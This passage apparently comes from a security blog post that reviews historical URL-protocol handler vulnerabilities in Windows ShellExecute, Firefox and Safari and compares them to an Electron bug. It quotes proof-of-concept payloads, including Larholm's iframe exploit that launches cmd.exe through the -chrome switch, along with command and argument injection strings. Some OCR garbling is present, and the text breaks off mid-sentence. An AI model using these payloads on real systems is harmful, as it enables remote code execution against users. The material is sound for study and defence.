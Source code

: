 <a href="mailto:%../../../../../../windows/system32/cmd".exe ../../../../../../../../windows/system32/calc.exe " - " blah.bat>Mailto:%</a>At first the report is for Firefox, but soon they realized that it was a shell32 bug. The precent symbol broke everything. It was supposed to invoke a mail client, but somehow a command got executed. Damn!

#### MS10–007 (CVE-2010–0027)

Three years after, another vulnerability in ShellExecute's inner implementation was found: <https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2010/ms10-007>


> The vulnerability could allow remote code execution if an application, such as a Web browser, passes specially crafted data to the ShellExecute API function through the Windows Shell Handler.This time sharp symbol broke it again:

xyz://www.example.com#://../../C:/windows/system32/calc.exe### CVE-2007–3670

This is a argument injection affects both Firefox and ThunderBird.

<https://www.mozilla.org/en-US/security/advisories/mfsa2007-23/>  
[https://bugzilla.mozilla.org/show_bug.cgi?id=384384](https://bugzilla.mozilla.org/show_bug.cgi?id=384384)

Firefox registered FirefoxURL: protocol:

[HKEY_CLASSES_ROOT\FirefoxURL\shell\open\command\@]  
C:\\PROGRA~1\\MOZILL~2\\FIREFOX.EXE -url "%1″ -requestPendingThor Larholm found a quote in url can inject extra command switch:

FirefoxURL://foo" --argument "my valueSo he used a special switch -chrome which allows executing arbitrary javascript in a privileged domain.

[**Larholm.com**  
*There is an input validation flaw in Internet Explorer that allows you to specify arbitrary arguments to the process…*larholm.com](http://larholm.com/2007/07/10/internet-explorer-0day-exploit/ "http://larholm.com/2007/07/10/internet-explorer-0day-exploit/")[](http://larholm.com/2007/07/10/internet-explorer-0day-exploit/)His final exploit:

<html><body>  
<iframe src='firefoxurl://larholm.com" -chrome "javascript:C=Components.classes;I=Components.interfaces;  
file=C['@mozilla.org/file/local;1'].createInstance(I.nsILocalFile);  
file.initWithPath('C:'+String.fromCharCode(92)+String.fromCharCode(92)+'Windows'+  
String.fromCharCode(92)+String.fromCharCode(92)+'System32'+String.fromCharCode(92)+  
String.fromCharCode(92)+'cmd.exe');  
process=C['@mozilla.org/process/util;1'].createInstance(I.nsIProcess);  
process.init(file);  
process.run(true,['/k%20echo%20hello%20from%20larholm.com'],1);  
'><  
</body></html>So** the electron bug follows exactly the same pattern with it: the quote in url, and code in command line switches.**

### CVE-2007–3186

Thor Larholm also found another exploit for Safari. The snippet below:

<iframe src='myprotocol://someserver.com" < foo > bar | foobar "arg1'></iframe>Will execute following command in shell:
